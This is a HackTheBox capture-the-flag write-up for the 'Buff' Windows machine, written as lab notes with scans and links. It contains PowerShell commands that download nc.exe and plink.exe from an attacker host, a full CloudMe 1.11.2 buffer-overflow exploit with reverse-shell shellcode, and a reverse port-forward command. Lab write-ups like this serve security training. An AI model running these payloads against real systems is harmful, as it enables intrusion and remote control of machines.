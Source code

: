 ```yaml
---
tags:
  - HackTheBox
  - Easy
  - B2R
  - Windows
  - Gym-Management-System
  - RCE
  - Buffer-Overflow
  - CloudMe
  - port-forwarding
aliases:
  - 10.10.10.198
---
```


# 10.10.10.198 - Buff [Easy]

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
It is better to have your head in the clouds, and know where you are... than to breathe the clearer atmosphere below them, and think that you are in paradise.
- Henry David Thoreau
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

## Information Gathering
``` bash
root@kali:~/CTF/HackTheBox/Machine/Buff# nmap 10.10.10.198 -p 8080,7680 -sC -oA files/nmap/open-services
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-22 21:43 CEST
Nmap scan report for 10.10.10.198
Host is up (0.037s latency).

PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: mrb3n's Bro Hut

Nmap done: 1 IP address (1 host up) scanned in 10.76 seconds
```


![2020-07-22-23-01-43.png](attachments/2020-07-22-23-01-43.png)

“Gym Management Software 1.0” == **Gym Management System 1.0**
https://www.exploit-db.com/exploits/48506

![attachments/2020-07-22-23-04-20.png](attachments/2020-07-22-23-04-20.png)

![attachments/2020-07-22-23-26-40.png](attachments/2020-07-22-23-26-40.png)

`4b5b023a28f09d7bbace384b13095dfe`

## Privilege Escalation
``` powershell
echo $webclient = New-Object System.Net.WebClient >wget.ps1
echo $url = "http://10.10.14.39/nc.exe" >>wget.ps1
echo $file = "nc.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
![18471753064989ce956ecd9d34bd149b.png](attachments/18471753064989ce956ecd9d34bd149b.png)
``` powershell
Proto  Local Address          Foreign Address        State

  TCP    0.0.0.0:135            BUFF:0                 LISTENING
  TCP    0.0.0.0:445            BUFF:0                 LISTENING
  TCP    0.0.0.0:5040           BUFF:0                 LISTENING
  TCP    0.0.0.0:7680           BUFF:0                 LISTENING
  TCP    0.0.0.0:8080           BUFF:0                 LISTENING
  TCP    0.0.0.0:49664          BUFF:0                 LISTENING
  TCP    0.0.0.0:49665          BUFF:0                 LISTENING
  TCP    0.0.0.0:49666          BUFF:0                 LISTENING
  TCP    0.0.0.0:49667          BUFF:0                 LISTENING
  TCP    0.0.0.0:49668          BUFF:0                 LISTENING
  TCP    0.0.0.0:49669          BUFF:0                 LISTENING
  TCP    10.10.10.198:139       BUFF:0                 LISTENING
  TCP    10.10.10.198:8080      10.10.14.29:48092      ESTABLISHED
  TCP    10.10.10.198:8080      10.10.14.39:40996      CLOSE_WAIT
  TCP    10.10.10.198:8080      10.10.14.39:41084      ESTABLISHED
  TCP    10.10.10.198:49697     10.10.14.39:http       ESTABLISHED
  TCP    10.10.10.198:49707     10.10.14.29:4000       ESTABLISHED
  TCP    127.0.0.1:3306         BUFF:0                 LISTENING
  TCP    127.0.0.1:8888         BUFF:0                 LISTENING
```
https://www.exploit-db.com/exploits/48389
https://bufferoverflows.net/practical-exploitation-part-1-cloudme-sync-1-11-2-bufferoverflow-seh/

Move the CloudMe_1112.exe file locally and testing it on a dev machine.
Minimal sostitutions to 48389.py
``` python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.39 LPORT=443 -a x86 -f python -b  '\x00\x0A\x0D' --> LEN 351
buf =  b""                                                                                               
buf += b"\xbd\xae\xea\xd2\xc4\xd9\xc3\xd9\x74\x24\xf4\x58\x31"                                           
buf += b"\xc9\xb1\x52\x31\x68\x12\x83\xc0\x04\x03\xc6\xe4\x30"                                           
buf += b"\x31\xea\x11\x36\xba\x12\xe2\x57\x32\xf7\xd3\x57\x20"
buf += b"\x7c\x43\x68\x22\xd0\x68\x03\x66\xc0\xfb\x61\xaf\xe7"
buf += b"\x4c\xcf\x89\xc6\x4d\x7c\xe9\x49\xce\x7f\x3e\xa9\xef"
buf += b"\x4f\x33\xa8\x28\xad\xbe\xf8\xe1\xb9\x6d\xec\x86\xf4"
buf += b"\xad\x87\xd5\x19\xb6\x74\xad\x18\x97\x2b\xa5\x42\x37"
buf += b"\xca\x6a\xff\x7e\xd4\x6f\x3a\xc8\x6f\x5b\xb0\xcb\xb9"
buf += b"\x95\x39\x67\x84\x19\xc8\x79\xc1\x9e\x33\x0c\x3b\xdd"
buf += b"\xce\x17\xf8\x9f\x14\x9d\x1a\x07\xde\x05\xc6\xb9\x33"
buf += b"\xd3\x8d\xb6\xf8\x97\xc9\xda\xff\x74\x62\xe6\x74\x7b"
buf += b"\xa4\x6e\xce\x58\x60\x2a\x94\xc1\x31\x96\x7b\xfd\x21"
buf += b"\x79\x23\x5b\x2a\x94\x30\xd6\x71\xf1\xf5\xdb\x89\x01"
buf += b"\x92\x6c\xfa\x33\x3d\xc7\x94\x7f\xb6\xc1\x63\x7f\xed"
buf += b"\xb6\xfb\x7e\x0e\xc7\xd2\x44\x5a\x97\x4c\x6c\xe3\x7c"
buf += b"\x8c\x91\x36\xd2\xdc\x3d\xe9\x93\x8c\xfd\x59\x7c\xc6"
buf += b"\xf1\x86\x9c\xe9\xdb\xae\x37\x10\x8c\xda\xcd\x14\x6b"
buf += b"\xb3\xd3\x28\x72\xf8\x5d\xce\x1e\xee\x0b\x59\xb7\x97"
buf += b"\x11\x11\x26\x57\x8c\x5c\x68\xd3\x23\xa1\x27\x14\x49"
buf += b"\xb1\xd0\xd4\x04\xeb\x77\xea\xb2\x83\x14\x79\x59\x53"
buf += b"\x52\x62\xf6\x04\x33\x54\x0f\xc0\xa9\xcf\xb9\xf6\x33"
buf += b"\x89\x82\xb2\xef\x6a\x0c\x3b\x7d\xd6\x2a\x2b\xbb\xd7"
buf += b"\x76\x1f\x13\x8e\x20\xc9\xd5\x78\x83\xa3\x8f\xd7\x4d"
buf += b"\x23\x49\x14\x4e\x35\x56\x71\x38\xd9\xe7\x2c\x7d\xe6"
buf += b"\xc8\xb8\x89\x9f\x34\x59\x75\x4a\xfd\x69\x3c\xd6\x54"
buf += b"\xe2\x99\x83\xe4\x6f\x1a\x7e\x2a\x96\x99\x8a\xd3\x6d"
buf += b"\x81\xff\xd6\x2a\x05\xec\xaa\x23\xe0\x12\x18\x43\x21"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + buf))

expl = padding1 + EIP + NOPS + buf + overrun

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(expl)
except Exception as e:
        print(sys.exc_value)
```

``` powershell
echo '$webclient = New-Object System.Net.WebClient' > wget.ps1
echo '$url = "http://10.10.14.39/plink-x64.exe"' >>wget.ps1
echo '$file = "plink.exe"' >>wget.ps1
echo '$webclient.DownloadFile($url,$file)' >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

.\plink.exe -ssh -l root -R 8888:127.0.0.1:8888 10.10.14.39
```
![1cd90c62496ddfac40291e3ccdca6c9f.png](attachments/1cd90c62496ddfac40291e3ccdca6c9f.png)
![f22d6b4d0d6c7ddd22d3418e69733305.png](attachments/f22d6b4d0d6c7ddd22d3418e69733305.png)
![5f2268f30a39e52d1896668473c6d3b7.png](attachments/5f2268f30a39e52d1896668473c6d3b7.png)

`a19f68f858b4464cdc8a7d5415d7bd0f`